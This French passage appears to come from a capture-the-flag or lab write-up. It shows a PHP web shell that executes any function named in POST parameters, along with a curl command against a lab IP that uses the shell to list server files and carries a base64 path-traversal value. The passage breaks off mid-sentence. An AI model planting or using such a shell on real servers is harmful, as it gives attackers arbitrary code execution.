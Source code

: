 Dans ces situations j'utilise le code suivant qui me permet de choisir dynamiquement la fonction PHP à exécuter et ses paramètres :

```php
<?php                                                                                                                  
$func = isset($_POST["f"]) ? $_POST["f"] : "";                                                                         
$arg1 = isset($_POST["a"]) ? $_POST["a"] : "";                                                                         
$arg2 = isset($_POST["b"]) ? $_POST["b"] : "";                                                                         
$ret_func = isset($_POST["rf"]) ? $_POST["rf"] : "";                                                                   
                                                                                                                        
$ret_val = "";                                                                                                         
if ($func != "") {                                                                                                     
    if ($arg1 != "" && $arg2 != "") {                                                                                  
        $ret_val = $func($arg1, $arg2);                                                                                
    } elseif ($arg1 != "") {                                                                                           
        $ret_val = $func($arg1);                                                                                       
    } else {                                                                                                           
        $ret_val = $func();                                                                                            
    }                                                                                                                  
}                                                                                                                      
                                                                                                                        
if ($ret_func != "") {                                                                                                 
    $ret_func($ret_val);                                                                                               
}                                                                                                                      
                                                                                                                        
?>
```

Par exemple pour lister les fichiers :

```bash
curl "http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vdmFyL21haWwvd3d3LWRhdGE=" --data "rf=print_r&f=scandir&a=/var/www/"
```

Je découvre un dossier ou fichier énigmatique :
